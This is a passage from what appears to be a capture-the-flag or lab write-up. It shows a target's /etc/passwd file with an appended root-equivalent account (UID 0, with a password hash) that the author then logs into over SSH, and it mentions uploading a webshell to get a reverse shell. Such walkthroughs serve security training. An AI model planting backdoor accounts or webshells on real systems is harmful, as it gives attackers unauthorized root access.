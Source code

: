 systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin  
dbus:x:81:81:System message bus:/:/sbin/nologin  
polkitd:x:999:998:User for polkitd:/:/sbin/nologin  
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin  
postfix:x:89:89::/var/spool/postfix:/sbin/nologin  
chrony:x:998:996::/var/lib/chrony:/sbin/nologin  
mezz:x:997:995::/home/mezz:/bin/false  
nginx:x:996:994:Nginx web server:/var/lib/nginx:/sbin/nologin  
named:x:25:25:Named:/var/named:/sbin/nologin  
enzy:qefY5nveklizZBNTaycf1:0:0:root:/root:/bin/bash

perfect it worked. Now let's ssh to the account:
![Pasted image 20250416232423](https://github.com/user-attachments/assets/1ce04cc6-8587-4182-a76c-19f3f9c90362)



This was one of the ways. 
another way is to upload webshell to the the targets /var/www/html directory using the found vulnerability and use that webshell to get a reverce shell and so on..

